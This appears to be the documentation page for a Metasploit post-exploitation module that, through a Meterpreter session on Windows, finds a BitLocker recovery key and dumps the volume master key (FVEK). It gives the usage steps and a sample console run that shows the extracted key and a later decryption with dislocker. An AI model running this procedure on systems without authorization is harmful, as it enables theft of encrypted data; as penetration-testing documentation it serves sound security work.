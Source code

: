 ## Vulnerable Application

This module enumerates ways to decrypt a Bitlocker volume and if a recovery key is stored locally or can be generated, dump the Bitlocker master key (FVEK)

## Verification Steps
  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/bitlocker_fvek```
  4. Do: ```set SESSION <session id>```
  5. Do: ```set DRIVE_LETTER <letter>```
  6. Do: ```run```

## Options

  **DRIVE_LETTER**

  Dump information from the DRIVE_LETTER encrypted with Bitlocker.

  **RECOVERY_KEY**

  Use the recovery key provided to decrypt the Bitlocker master key (FVEK).

  **SESSION**

  The session to run this module on.

## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.6:49184) at 2019-12-11 12:51:59 -0700

  msf > use post/windows/gather/bitlocker_fvek
  msf post(windows/gather/bitlocker_fvek) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/bitlocker_fvek) > set DRIVE_LETTER c
    DRIVE_LETTER => c
  msf post(windows/gather/bitlocker_fvek) > run

    [+] Successfully opened Disk 0
    [*] Trying to gather a recovery key
    [+] Recovery key found : 579744-627517-149402-208362-055022-542289-041470-364089
    [*] The recovery key derivation usually take 20 seconds...
    [+] Successfully extract FVEK in /root/.msf4/loot/20191211125311_default_192.168.1.6_windows.file_437952.bin
    [+] This hard drive could later be decrypted using : dislocker -k <key_file> ...
    [*] Post Successful
    [*] Post module execution completed
  msf post(windows/gather/bitlocker_fvek) > sessions 1
    [*] Starting interaction with 1...

  meterpreter > sysinfo
    Computer        : TEST-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x86
    System Language : en_US
    Domain          : DOMAIN
    Logged On Users : 1
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
  ```
